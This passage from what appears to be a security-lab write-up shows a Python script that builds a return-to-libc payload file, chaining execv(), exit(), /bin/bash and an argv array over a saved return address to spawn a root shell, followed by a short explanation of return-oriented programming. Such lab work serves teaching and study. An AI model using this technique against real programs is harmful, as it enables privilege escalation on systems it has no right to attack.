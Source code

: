 ```python

# build argv[] close to the end of the file
offset = 300 - (3 * 4)          # we have argv[0] to argv[2]
content[offset:offset+4] = (bash_addr).to_bytes(4,byteorder='little')
content[offset+4:offset+8] = (argv1_addr).to_bytes(4,byteorder='little')
content[offset+8:offset+12] = (0x00).to_bytes(4,byteorder='little')

argv_addr = input_main_addr + offset

###########################################################################
# The stack is built the following way from high address to low address:  #
# Address of argv[]                                                       #
# Address of /bin/bash string                                             #
# Address of exit()                                                       #
# Address of execv()                                                      #
###########################################################################

# $ebp - &buffer = 22
ret = 22 + 4

# build the stack
content[ret:ret+4]     = (execv_addr).to_bytes(4,byteorder='little')
content[ret+4:ret+8]   = (exit_addr).to_bytes(4,byteorder='little')
content[ret+8:ret+12]  = (bash_addr).to_bytes(4,byteorder='little')
content[ret+12:ret+16] = (argv_addr).to_bytes(4,byteorder='little')


# Save content to a file
with open("badfile", "wb") as f:
  f.write(content)
```

<details><summary>Code Explanation</summary></details>

When we run the exploit to generate the badfile and run the vulnerable program, the exploit succeeds and we obtain a root shell.

![task-4-b](https://github.com/iukadike/blog/assets/58455326/2f9a49ff-f991-43d4-b334-f931ea96bd29)


<br>

### Return-Oriented Programming

ROP overcomes these protections by reusing existing code snippets, known as "gadgets," rather than injecting new code into memory. A gadget is a small sequence of instructions ending in a "return" instruction (ret) that pops the top stack value into the instruction pointer (IP) register, effectively changing the program's flow.

An attacker constructs a payload consisting of a series of gadgets to achieve their intended actions. By cleverly chaining these gadgets together, they can manipulate the program's execution flow and achieve their objective, such as running shellcode or gaining elevated privileges.
